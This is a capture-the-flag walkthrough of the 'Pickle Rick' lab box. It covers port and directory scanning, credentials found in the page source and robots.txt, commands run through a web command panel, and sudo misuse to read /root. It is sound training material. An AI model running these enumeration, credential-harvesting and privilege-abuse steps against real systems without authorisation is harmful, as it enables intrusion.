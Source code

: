 # Pickle Rick

> RedAiden

## Enumeration

### Nmap

`nmap -sC -sV 10.10.x.x`
```
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 95:3a:6f:96:7c:5d:41:cf:92:20:da:78:c7:19:ef:c7 (RSA)
|   256 50:c4:46:76:ca:f4:30:3c:8a:dc:89:2a:34:87:78:ef (ECDSA)
|_  256 d7:50:77:27:5e:1c:1b:f2:62:e6:9d:dc:10:4f:9a:ce (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### gobuster

`gobuster dir -w /usr/share/wordlists/dirb/big.txt -u 10.10.x.x`

```
/.htaccess            (Status: 403) [Size: 295]
/.htpasswd            (Status: 403) [Size: 295]
/assets               (Status: 301) [Size: 311] [--> http://10.10.x.x/assets/]
/robots.txt           (Status: 200) [Size: 17]                                  
/server-status        (Status: 403) [Size: 299] 
```

### nikto

`nikto -host http://10.10.1.213`
```
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.1.213
+ Target Hostname:    10.10.1.213
+ Target Port:        80
+ Start Time:         2021-01-21 01:29:09 (GMT0)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Server may leak inodes via ETags, header found with file /, inode: 426, size: 5818ccf125686, mtime: gzip
+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: OPTIONS, GET, HEAD, POST 
+ Cookie PHPSESSID created without the httponly flag
+ OSVDB-3233: /icons/README: Apache default file found.
+ /login.php: Admin login page/section found.
+ 7889 requests: 0 error(s) and 9 item(s) reported on remote host
+ End Time:           2021-01-21 01:29:57 (GMT0) (48 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

### Web page

When we visit the web app, we can see that Rick needs some help getting the ingredients. First thing we can do is check the page source, where we can find a username: `R1ckRul3s`. There's nothing else on the page, so we can move on.

Next let's check the found directories with gobuster. In the `/assets` directory we find some images and gifs but nothing important. Inspecting `/robots.txt` we find the following: `Wubbalubbadubdub`, which could be a potential password.

From the nikto scan we can see a `/login.php` page. Upon entering we are asked for a username and password. We can use the ones we have discovered so far:
- Username: `R1ckRul3s`
- Password: `Wubbalubbadubdub`

```
mr. meeseek hair
```

## Exploitation

We now have acces to a Command Panel where we can run linux commands.


### First ingredient

1. Run `ls` to list all files. We see a file called `Sup3rS3cretPickl3Ingred.txt`.
   - Unfortunately, we can't cat the file because of our permissions
2. To access the file, navigate to its URL: `http://10.10.1.213/Sup3rS3cretPickl3Ingred.txt`. You'll find the first ingredient here.

### Second Ingredient

1. If we read the `clue.txt` file we get a hint to search in the file system. Run `pwd` to see our current path.
2. We now know we are in `/var/www/html`. Let's go back to the home directory and list everything: `ls -la ../../../`
3. Reading through the output we see the `home` folder. We can see its contents with `ls -la /home/`
4. We can see another folder called `rick`. We can access it the same way `ls -la /home/rick`
5. There we find our second ingredient. Read the file with `less /home/rick/second\ ingredients`

### Third Ingredient
1. Remember in the home directory listing we saw a `/root` folder but we didn't have the permissions to read it. Run `sudo -l` to view our permissions
```
Matching Defaults entries for www-data on ip-10-10-1-213.eu-west-1.compute.internal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-1-213.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```
2. It looks like we can use sudo for anything that doesn't require a password, like `ls` and we can abuse that to read the contents of the folder. Run `sudo ls -la /root`
3. We can find the 3rd ingredient in this folder. Read it with `sudo less /root/3rd.txt`